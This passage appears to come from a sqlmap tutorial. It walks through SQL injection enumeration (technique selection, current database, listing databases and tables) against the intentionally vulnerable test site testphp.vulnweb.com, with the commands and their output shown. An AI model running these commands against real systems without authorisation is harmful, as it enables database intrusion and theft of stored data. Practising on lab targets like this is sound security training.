 ```sh
sqlmap -u example.com?id=0 --technique=UTQ
```

### Current DBMS

Use option `--current-db` to get the current DBMS.

```sh
sqlmap -u example.com?id=0 --current-db
```

```
[HH:MM:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.6
[HH:MM:58] [INFO] fetching current database
current database: 'acuart'
```

### Get Database

Use option `--dbs` to get databases in the DBMS, then use option `-D` to enter the specified database.

```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
```

```
[HH:MM:52] [INFO] fetching database names
available databases [2]:
[*] acuart
[*] information_schema
```

```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart
```

### Get Tables

Use option `--tabels` to get the tables in the database, then use option `-T` to enter the specified table.

```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
```

```
[HH:MM:18] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```
